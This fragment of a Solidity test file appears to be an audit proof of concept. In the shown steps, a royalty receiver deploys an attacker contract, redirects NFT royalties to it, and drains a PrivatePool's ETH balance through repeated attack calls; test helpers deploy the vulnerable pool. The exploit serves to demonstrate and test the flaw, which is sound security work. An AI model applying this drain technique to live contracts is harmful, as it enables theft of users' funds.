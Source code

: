 ```solidity
        // 0. Execute the following steps from the royalty receiver (the attacker) account.
        vm.startPrank(receiver);

        // 1. Deploy the attacker contract that contains the main exploit logic.
        AttackerContract maliciousReceiverContract = new AttackerContract(
            payable(privatePool),
            address(nft),
            tokenId
        );

        assertEq(maliciousReceiverContract.owner(), receiver);

        // 2. Change the royalty receiver for NFT#tokenId to the attacker contract.
        nft.setTokenRoyalty(tokenId, address(maliciousReceiverContract), 10);

        (address newRoyaltyReceiver, ) = nft.royaltyInfo(tokenId, 10_000);
        assertEq(newRoyaltyReceiver, address(maliciousReceiverContract));

        // 3. Execute the attack.
        maliciousReceiverContract.attack{value: 100 ether}(
            4, // 4 iterations are needed to drain the whole private ETH balance having the current setup.
            new uint256[](1), // This will pass the following array as tokenIds - [0].
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0))
        );

        // Log state after pool was drained.
        _logState(" After the exploit");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
    }

    /**
     * @notice Simulates deposits of 5 NFTs to the private pool.
     * @param _targetTokenId The specific NFT that will be
     * used by the attacker to perform the exploit.
     */
```